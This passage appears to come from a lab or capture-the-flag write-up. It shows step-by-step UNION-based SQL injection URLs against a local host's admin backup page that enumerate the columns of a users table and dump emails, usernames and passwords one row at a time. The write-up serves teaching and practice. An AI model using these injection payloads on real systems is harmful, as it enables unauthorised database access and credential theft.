 ![m7](/assets/img/m87/m7.png)
```
http://192.168.1.223/admin/backup/?id=99 or 1=2 union select (select column_name from information_schema.columns where table_schema='db' and table_name='users' limit 2,1)
```
![m8](/assets/img/m87/m8.png)

```
http://192.168.1.223/admin/backup/?id=99 or 1=2 union select (select column_name from information_schema.columns where table_schema='db' and table_name='users' limit 3,1)
```
![m9](/assets/img/m87/m9.png)

The columns of table users are:
- id
- email
- username
- password

**v) Dumping all data**

The following payload extract first entry from table. In order to dump all the data we need to increase limit squentially.
```
http://192.168.1.223/admin/backup/?id=99 or 1=2 union select (select concat(id," ",email," ",username," ",password) from users limit 0,1)
```
![m10](/assets/img/m87/m10.png)
